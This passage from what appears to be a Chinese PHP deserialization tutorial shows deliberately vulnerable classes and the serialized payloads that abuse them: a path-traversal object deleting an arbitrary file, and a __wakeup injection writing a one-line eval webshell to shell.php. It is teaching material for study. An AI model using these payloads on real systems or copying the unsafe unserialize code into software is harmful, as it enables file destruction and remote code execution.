正常输入参数：O:3:"Stu":2:{s:4:"name";s:2:"aa";s:3:"age";i:20;}

重构logfile.php文件包含的对象进行文件删除 

     正常重构：O:7:"LogFile":1:{s:8:"filename";s:9:"error.log";}

 发现正常删除，但如果我们修改参数，让其删除其他的文件呢？

    异常重构：O:7:"LogFile":1:{s:8:"filename";s:10:"../ljh.php";}
    执行该代码

2.__wakeup()

例如有一个代码为index.php，源码如下

```php
<?php 
	class chybeta
	{
		public $test = '123';
		function __wakeup()
		{
			$fp = fopen("shell.php","w") ;
			fwrite($fp,$this->test);
			fclose($fp);
		}
	}
	$class = @$_GET['test'];
	print_r($class);
	echo "</br>";
	$class_unser = unserialize($class);
	
	// 为显示效果，把这个shell.php包含进来
    require "shell.php";
 ?>
```

 传入参数：?test=O:7:"chybeta":1:{s:4:"test";s:19:"<?php phpinfo(); ?>";}

 查看shell.php文件

也可以传入一句话木马：O:7:"chybeta":1:{s:4:"test";s:25:"<?php eval($_POST[1]); ?>";}
3.toString()

举个例子，某用户类定义了一个__toString为了让应用程序能够将类作为一个字符串输出(echo $obj)，而且其他类也可能定义了一个类允许 __toString读取某个文件。把下面这段代码保存为fileread.php

fileread.php代码

```php
<?php 
	//读取文件类
	class FileRead
	{
		public $filename = 'error.log';
		function __toString()
		{
			return file_get_contents($this->filename);
		}
	}
 ?>
```
